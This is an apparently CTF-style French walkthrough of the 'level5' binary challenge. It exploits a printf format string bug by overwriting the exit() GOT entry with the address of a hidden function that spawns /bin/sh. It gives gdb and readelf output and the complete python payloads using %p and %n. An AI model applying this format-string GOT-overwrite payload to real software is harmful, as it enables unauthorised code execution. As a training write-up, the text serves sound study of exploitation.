 Si on disass notre executable il call printf avec notre input et utilise exit pour terminer le programme.
On remarque aussi que une fonction est presente mais n'est pas appeler, la fonction o execute un appel system avec comme argument /bin/sh.
On en deduit qu'il va falloir detourner notre executable afin qu'il lance la fonction qui n'est pas utiliser ( la fonction o )

Vu que notre input est directement utiliser par printf nous pouvons effectuer un format string attack,
mais contrairement a l'exercice d'avant nous ne pouvons pas utiliser le retour de la fonction pour l'exploit car la fonction se termine avant avec l'appel de exit()
Cepedant l'executable utilise des 'dynamic link' et une faille est possible en ecrasant la valeur de notre relocation (effectuer par plt) de la fonction exit. on va donc chercher a remplacer la valeur de notre GOT ( global offset table ) qui contient l'adresse pour executer exit().
Si on remplace l'adresse par celle de notre fonction o, Notre fonction sera donc executer quand un appel a exit.plt sera effectuer.

Pour obtenir les differentes adresses:
Dans gdb:
--> info functions
- 0x080484a4  o

et pour avoir l'emplacement de la relocation on utilise readelf
--> readelf -r ./level5
- 08049838  00000607 R_386_JUMP_SLOT   00000000   exit

Pour recapituler nous devons donc ecrire 0x080484a4 (o) dans 08049838 (reloc)
0x080484a4 en decimal vaut 134513828

comme dans l'ancien exercice on utilise %p pour trouver l'emplacement de notre format string dans la stack

--> python -c "print('AAAA' + ' %p'*10)" | ./level5
- AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520

Notre string 'AAAA' est le 4eme element.
Nous pouvons donc pointer dessus de cette maniere '%4\%p'
--> python -c "print('AAAA' + ' %4\$p')" | ./level5
- AAAA 0x41414141

Cela fonctionne correctement il nous reste donc a tous assembler, c'est a dire ecrire notre adresse 0x08049838 (reloc) notre nombre 0x080484a4 (o) en utilisant le %n de printf. ( attention a bien faire -4 a notre valeur car l'adresse que nous ecrivont avant vaut 4 soit 134513824 )
--> python -c "print('\x38\x98\x04\x08' + '%134513824d' + ' %4\$n')" | ./level5
Il ne se passe rien car notre appel system se fini directement, il faut donc garder le stdin ouvert afin de pouvoir interagir avec notre sh qui est executer !

--> (python -c "print('\x38\x98\x04\x08' + '%134513824d' + ' %4\$n')" ; cat) | ./level5
